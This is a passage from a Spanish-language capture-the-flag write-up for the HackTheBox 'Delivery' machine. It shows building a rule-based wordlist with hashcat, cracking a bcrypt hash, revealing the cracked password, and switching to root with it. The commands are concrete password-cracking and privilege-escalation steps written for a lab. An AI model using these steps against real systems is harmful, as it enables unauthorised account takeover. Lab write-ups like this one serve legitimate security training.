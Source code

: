```
hashcat -r /usr/share/hashcat/rules/best64.rule --stdout pista > dict
```

Ya con nuestro diccionario creado vamos a intentar crackear nuestro hash:

```
echo $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO > hash
```

```
hashcat -a 0 -m 3200 hash dict
```

Vemos que encontró la contraseña, es **PleaseSubscribe!21**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DELIVERY/images/23.png)

entonces si nos cambiamos al usuario root y ponemos esa clave ya somos root:

```
su root

PleaseSubscribe!21
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/DELIVERY/images/24.png)



